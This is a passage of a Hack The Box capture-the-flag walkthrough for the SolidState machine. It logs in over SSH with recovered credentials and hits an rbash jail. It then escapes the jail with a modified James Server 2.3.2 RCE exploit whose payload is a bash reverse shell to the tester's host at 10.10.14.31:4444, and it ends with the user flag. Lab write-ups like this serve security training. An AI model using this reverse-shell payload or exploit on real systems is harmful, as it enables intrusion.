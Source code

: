 	![]({{ page.img_path }}Pasted%20image%2020220825034752.png)
	- `mindy:P@55W0rd1!2@`


## TCP/22 (SSH) 
1. Access w/ `mindy:P@55W0rd1!2@`
	```
	┌──(root💀kali)-[~/htb/solidstate/10.10.10.51/exploit]
	└─# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51
	```
	![]({{ page.img_path }}Pasted%20image%2020220825040323.png)
	- `rbash`
		- We are in a jail shell
		- [Escape it](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/)
3. Earlier, we found an RCE exploit on `James Server 2.3.2` that executes the payload when the user logs in, we can use this to escape the jail shell.

## TCP/4555 (James Server 2.3.2) - RCE exploit
1. Try  `linux/remote/35513.py`
	1. Change `payload` in  `/linux/remote/35513.py`
		```
		...
		payload = '/bin/bash -i >& /dev/tcp/10.10.14.31/4444 0>&1' 
		... 
		```
	2. Run exploit
		```
		┌──(root💀kali)-[~/htb/solidstate/10.10.10.51/exploit]
		└─# python 35513.py 10.10.10.51
		[+]Connecting to James Remote Administration Tool...
		[+]Creating user...
		[+]Connecting to James SMTP server...
		[+]Sending payload...
		[+]Done! Payload will be executed once somebody logs in.
		```
	3. Start listener 
	2. Login to `mindy`
		```
		┌──(root💀kali)-[~/htb/solidstate/10.10.10.51/exploit]
		└─# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51
		```
		![]({{ page.img_path }}Pasted%20image%2020220825041617.png)
		- Jailshell escaped!
2. User Flag
	```
	4d9a00315a76957167ef83161bd7abe9
	```
	![]({{ page.img_path }}Pasted%20image%2020220825041833.png)
